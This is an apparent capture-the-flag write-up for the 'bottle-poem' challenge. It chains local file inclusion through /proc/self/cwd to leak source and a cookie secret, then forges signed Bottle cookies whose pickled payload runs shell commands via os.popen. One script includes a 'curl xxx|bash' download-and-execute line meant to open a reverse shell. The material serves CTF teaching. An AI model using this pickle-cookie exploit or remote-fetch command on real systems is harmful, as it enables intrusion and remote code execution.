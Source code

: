 # Writeup

It's easy to find that this website has LFI. If you want to read file directly but failed, that does not mean we tried to hide the flag file, it means you don't have enough execute permission to read it. Since there were many tickets about it, we later updated description that flag is an executable on server, and you don't need to bruteforce or guess anything. Flag is in the common path `./flag`.

So we need to read source, just like this:

http://bottle-poem.ctf.sekai.team/show?id=/proc/self/cwd/app.py

And we don't need to bruteforce `proc/self/`, just use it to got sourcecode.

Use this way you can read the secret `--sekai`

http://bottle-poem.ctf.sekai.team/show?id=/proc/self/cwd/config/secret.py

Now you can control the cookies, but if you read something just like `/views/admin.html` or just make guest to admin you would find it's a troll. You need RCE truely, and if you search some documentation you will find the bottle's `cookie_decode()` will unpickle. So we use this to get RCE.

https://github.com/bottlepy/bottle/issues/900

Here are the steps
1. lfi to read file and	secret
2. use cookie pickle rce to reverse a shell
3. execute ./flag to get flag

Demo exploit: 

```py
import base64,hashlib,pickle,hmac
import os
def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)
def cookie_encode(data, key):
    ''' Encode and sign a pickle-able object. Return a (byte) string '''
    msg = base64.b64encode(pickle.dumps(data, 0))
    sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
    return tob('!') + sig + tob('?') + msg
class test():
    def __reduce__(self):
        return (eval,('__import__("os").popen("command")',))
obj = test()
a = cookie_encode(obj,'Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu')
print(a)
```

Or you can just use bottle's cookie encode

**Notice:** You need reverse shell 

```python
import bottle
import requests
url='http://bottle-poem.ctf.sekai.team/sign'
secret = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
class Exploit:
    def __reduce__(self):
        return (eval, ('__import__("os").popen("curl xxx|bash")',))
exp = bottle.cookie_encode(
    ('session', {"name": [Exploit()]}),
    secret
)
print(exp)
```

Will remove pickle to decode and instead of json.

This is a basic lfi to rce, but seems a little too hard for new CTF players (due to the new trick). I will make an easier challenge next year :)
